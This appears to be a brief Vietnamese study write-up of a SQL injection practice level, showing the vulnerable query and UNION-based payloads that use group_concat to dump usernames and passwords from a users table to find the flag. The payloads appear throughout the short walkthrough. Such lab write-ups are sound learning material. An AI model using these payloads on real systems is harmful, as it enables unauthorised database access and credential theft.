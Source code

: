 #LevelOne- Select the user by ID you wish to view
>Sqli ID
>
Đề bài cho câu lênh query sql sau : 

```sql
SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1
```
Ta nhập id = 1 và xem thử đầu ra => Thì thấy 2 trường đầu ra gồm id và username 
![id](https://github.com/tinasahara1/Study/blob/4d55fb78fcaa93466bf002059f47813c4522b60f/WebSec/image/id1.PNG)

Sau đó test thử payload với column = 2 để kiểm tra lỗ hổng => payload `1 union select 1,2-- -`
![id](https://github.com/tinasahara1/Study/blob/e159b1e37be66b1d5835208db76e3c848dc67e5b/WebSec/image/id3.PNG)

Đầu ra cho thấy cả 2 column 1,2 đều lỗi => Ta group_concat(username) để tìm flag thử 
```sql
1 union select 1,group_concat(username) from users;
```
![id](https://github.com/tinasahara1/Study/blob/3bcf48f054953d8366acef0111ed71c7239dc71f/WebSec/image/id_flag.PNG)

Nhưng vẫn không thấy ta thử tiếp phần password và tìm thấy flag :
```sql
1 union select 1,group_concat(password) from users;
```
